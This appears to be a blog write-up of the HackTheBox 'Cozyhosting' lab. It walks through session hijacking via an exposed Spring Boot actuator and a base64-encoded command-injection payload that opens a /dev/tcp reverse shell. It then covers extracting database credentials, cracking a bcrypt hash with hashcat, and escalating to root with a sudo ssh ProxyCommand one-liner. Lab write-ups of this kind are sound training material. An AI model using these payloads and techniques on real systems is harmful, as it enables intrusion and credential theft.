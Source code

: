 ```yaml
---
author: Nithissh S
pubDatetime: 2024-01-06T15:22:00Z
modDatetime: 2024-01-06T09:12:47.400Z
title: Cozyhosting - HTB 
slug: otp-login-exploitation-and-authentication-bypass
featured: false
draft: false
tags:
  - CTF
  - HTB
description:
  An Easy level HackTheBox platform lab machine running Linux containing an open actuator on Spring Boot, Command Injection, application reversal and simple privilege escalation.
---
```


## Service Overview

The machine is assigned IP address 10.10.11.230, let's scan the ports with Nmap:

```sh
$ nmap -sV -sS -Pn -p1-65535 -oN 10.10.11.230 10.10.11.230
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-03 01:46 EDT
Nmap scan report for 10.10.11.230
Host is up (0.064s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After going to http://10.10.11.230 we get the address cozyhosting.htb, which we will write in /etc/hosts.

```sh
$ echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

## Web Service

Let's use dirsearch to find interesting files.

```sh
$ python3 dirsearch.py -u http://cozyhosting.htb
Sessions found the user kanderson: <http://cozyhosting.htb/actuator/sessions>.

36FC9F46B782A399A71908E661CF5481	"kanderson"
078E0AFFF6038D86B0E4B9503735EE36	"kanderson"

	
EEB6EBC6B06219C8009764BB6ACCF8DD	"UNAUTHORIZED"
6155F2929B8D4814171410BE580B8215	"kanderson"
```

In web-browser click: Inspect -> Storage -> Cookies - Replace to:

```sh
;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg=="|base64${IFS}-d|bash;
```

## Reverse shell:

```sh
$ echo "sh -i >& /dev/tcp/10.10.16.18/4444 0>&1" | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTgvNDQ0NCAwPiYxCg==
```

Let's start nc and send the request:

```sh
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.18] from (UNKNOWN) [10.10.11.230] 36184
sh: 0: can't access tty; job control turned off
$ ls /home
$ josh
$ ls
$ cloudhosting-0.0.1.jar
$ id
uid=1001(app) gid=1001(app) groups=1001(app)
$ python3 -m http.server 8083
10.10.16.18 - - [08/Sep/2023 10:29:06] "GET / HTTP/1.1" 200 -
10.10.16.18 - - [08/Sep/2023 10:29:07] code 404, message File not found
10.10.16.18 - - [08/Sep/2023 10:29:07] "GET /favicon.ico HTTP/1.1" 404 -
10.10.16.18 - - [08/Sep/2023 10:29:51] "GET /cloudhosting-0.0.1.jar HTTP/1.1" 200 -
```

## Exploring the application

Let's download the application cloudhosting-0.0.1.jar and open it in jd.

```sh
$ wget http://cozyhosting.htb:8083/cloudhosting-0.0.1.jar
```
In application.properties find the password for postgres, and in scheduled/FakeUser.class find the creds for user kanderson:

```sh
$ jar xf cloudhosting-0.0.1.jar
$ cd BOOT-INF/classes
$ cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Let's look at the database:

```sh
psql "postgresql://$DB_USER:$DB_PWD@$DB_SERVER/$DB_NAME"
psql -U postgres -W -h localhost -d cozyhosting
psql "postgresql://postgres:nvzAQ7XxR@localhost:5432/cozyhosting"
psql -U postgres -W -h localhost -d cozyhosting
Password: Vg&nvzAQ7XxR

\list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

\c cozyhosting
Password: Vg&nvzAQ7XxR

You are now connected to database "cozyhosting" as user "postgres".
\d
              List of relations
 Schema |     Name     |   Type   |  Owner
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

SELECT * FROM users;
   name    |                           password                           | role
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)
```

#### Hash Identification (bcrypt):

```sh
$ hashcat --help | grep 3200
   3200 | bcrypt $2*$, Blowfish (Unix)      
```

Let's put the hash in the hash.txt file and run hashcat:

```sh
$ hashcat -m 3200 -a 0 hash.txt rockyou.txt
hashcat (v6.1.1) starting...
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

Let's see what user is still on the system:

```sh
$ ls -la /home
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040750/rwxr-x---  4096  dir   2023-08-08 06:19:05 -0400  josh
Let's try to connect to ssh using:

ssh josh@10.10.11.230
manchesterunited

josh@cozyhosting:~$ cat user.txt
ab5232bdddfdec1731346c7bd7e4e8cc
```

## Privilege escalation

Let's see what the josh user can execute from under sudo: Let's use the gtfobins method.

```sh
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *

sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

# cd /root
# ls
root.txt
# cat root.txt
f9b3da1faf12ea84a31efc7297b25fc6
```